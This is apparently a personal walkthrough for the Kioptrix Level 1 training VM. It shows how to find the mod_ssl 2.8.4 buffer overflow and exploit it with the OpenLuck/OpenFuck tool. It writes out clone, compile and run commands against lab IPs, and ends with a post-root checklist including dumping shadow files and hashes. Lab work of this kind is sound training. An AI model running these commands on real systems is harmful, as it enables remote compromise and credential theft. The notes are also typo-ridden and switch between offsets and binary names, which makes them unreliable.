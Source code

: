 
**Exploit kioptrix level 1**

ATTACKING HTTP/HTTPS
<br/>
From enumeration<br/>
<br/>
port 80/443<br/>
80/tcp  open http    Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)<br/>
<b>mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</b><br/>
<br/>
Google &gt; <b>mod_ssl/2.8.4</b>exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/764<br/>
<br/>
Github alternate <br/>
https://github.com/heltonWernik/OpenLuck<br/>
<br/>
Google &gt; Apache httpd 1.3.20 exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/19975<br/>
<br/>
<br/>
MANUAL EXPLOITATION OPENF*CK<br/>
<br/>
during enum &gt; we discovered taht the system is potentially vulnerable to OPENFUCK<br/>
<br/>
The exploit DB explopit is currently broken. As stated the github alternate is curerntly fixed.<br/>
<br/>
Navigate to the github repo and follow instructions to install<br/>
<br/>
https://github.com/heltonWernik/OpenLuck<br/>
<br/>
<br/>
OpenLuck<br/>
<br/>
Original is OpenFu*&amp;%$#, I change for something more elegant<br/>
Usage<br/>
<br/>
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated<br/>
<br/>
  Download OpenFuck.c<br/>
<br/>
git clone https://github.com/heltonWernik/OpenFuck.git<br/>
<br/>
  Install ssl-dev library<br/>
<br/>
apt-get install libssl-dev<br/>
<br/>
  It's Compile Time<br/>
<br/>
gcc -o OpenFuck OpenFuck.c -lcrypto<br/>
<br/>
  Running the Exploit<br/>
<br/>
./OpenFuck<br/>
<br/>
  See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option ./OpenFuck 0x6a [Target Ip] [port] -c 40<br/>
<br/>
for example:<br/>
<br/>
./OpenFuck 0x6a 192.168.80.145 443 -c 40<br/>
<br/>
<br/>
<br/>
Becuase the victim is running apache 1.3.20 and redhat linux we can try offset 0x6b<br/>
<br/>
syntax &gt; ./open &lt;target ip&gt; [port] [-c number]<br/>
<br/>
./open 192.168.247.129 -c 40<br/>
<br/>
creates a shell gets some resources from internet through wget.<br/>
<br/>
success. If failed try alternate offset.<br/>
<br/>
When have root always<br/>
whoami<br/>
hostname<br/>
check IP<br/>
route table<br/>
arp table<br/>
look for password and shadow file<br/>
hash dump<br/>
